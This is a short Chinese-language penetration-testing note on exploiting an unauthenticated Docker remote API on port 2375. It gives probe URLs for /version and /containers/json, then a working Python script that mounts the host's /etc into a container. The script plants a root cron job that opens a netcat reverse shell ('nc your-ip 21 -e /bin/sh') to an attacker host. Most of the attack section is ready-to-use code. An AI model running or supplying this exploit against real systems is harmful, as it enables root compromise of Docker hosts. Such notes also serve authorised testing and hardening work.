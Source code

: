 # Docker 2375端口

## 关于

<a-checkbox checked>该未授权访问漏洞是因为 Docker remote api 可执行docker命令，获取信息</a-checkbox></br>

<a-checkbox checked>从官方文档可以看出，该接口是目的是取代docker 命令界面，通过url操作docker。</a-checkbox></br>

<a-checkbox checked>而Docker swarm是docker下的分布化应用的本地集群，在开放2375监听集群容器时，就会调用这个api</a-checkbox></br>

## 攻击方法

访问目标，验证未授权API调用

```bash
http://xxx.xxx.xxx.xxx:2375/version
http://xxx.xxx.xxx.xxx:2375/containers/json
```

![img](../../../.vuepress/public/img/1629509264213-4a39c72c-ce8c-42f4-af15-997bd7f86be6.png)

<a-checkbox checked>使用 Python脚本调用API 反弹Shell</a-checkbox></br>

```bash
import docker

client = docker.DockerClient(base_url='http://Remote-IP:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

![img](../../../.vuepress/public/img/1629509794103-4c27e6d1-8c28-441a-9b26-0f5326506451.png)